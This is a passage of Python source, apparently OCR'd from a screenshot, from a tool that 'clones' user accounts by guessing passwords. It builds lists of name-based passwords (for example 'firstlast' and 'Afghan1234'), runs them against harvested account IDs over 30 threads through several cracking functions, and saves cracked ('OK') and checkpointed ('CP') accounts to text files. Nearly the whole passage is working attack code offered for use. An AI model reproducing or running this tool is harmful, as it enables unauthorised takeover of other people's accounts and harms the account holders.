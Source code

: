                                    plist.append("first last")
                                    plist.append("First Last")
                                    plist.append("Firstlast")
                                    plist.append("Afghan1234")
                                elif ppp in ["4","04"]:
                                    plist.append("firstlast")
                                    plist.append("first last")
                                else:
                                        try:
                                                print('\033[1;97m [+]-------------------------------------------------------')
                                                ps_limit = int(input(' [+] HOW MANY PASSWORDS DO YOU WANT TO ADD ? '))
                                        except:
                                                ps_limit =20
                                        print('\033[1;97m [+]-------------------------------------------------------')
                                        print('\033[1;32m [+] exp: first last,firtslast,first123')
                                        print('\033[1;97m [+]-------------------------------------------------------')
                                        for i in range(ps_limit):
                                                plist.append(input(f' [+] PUT PASSWORD {i+20}: '))
                                print('\033[1;97m [+]-------------------------------------------------------')
                                print(' [+] DO YOU WANT SHOW CP ACCOUNT? (Y/n): ')
                                print('\033[1;97m [+]-------------------------------------------------------')
                                cx=input(' [+] CHOOSE: ')
                                if cx in ['y','Y','yes','Yes','1']:
                                        pcp.append('y')
                                else:
                                    pcp.append('n')
                                
                                with tred(max_workers=30) as crack_submit:
                                        clear()
                                        total_ids = str(len(fo))
                                        lim=int(total_ids)
                                        print(' [+] TOTAL IDS : \033[1;32m'+total_ids)
                                        print("\033[1;32m [+] CLONING STARTED")
                                        print("\033[1;32m [+] ON/OFF YOUR MOBILE DATA BEFORE USE")
                                        print('\033[1;97m [+]-------------------------------------------------------')
                                        print("\033[1;32m [+] OK IDS SAVE ✓ JARED-OK.txt")
                                        print("\033[1;32m [+] CP IDS SAVE × JARED-CP.txt")
                                        print("\033[1;32m [+]       WE ARE FILIPINO  ")
                                        print('\033[1;97m [+]-------------------------------------------------------')
                            
                                        
                                        for user in fo:
                                                ids,names = user.split('|')
                                                passlist = plist
                                                if mthd in ['1','01']:
                                                        crack_submit.submit(ffb,ids,names,passlist)
                                                elif mthd in ['2','02']:
                                                        crack_submit.submit(api,ids,names,passlist)
                                                else:
                                                        crack_submit.submit(api1,ids,names,passlist)
 
                                print('\033[1;37m')
 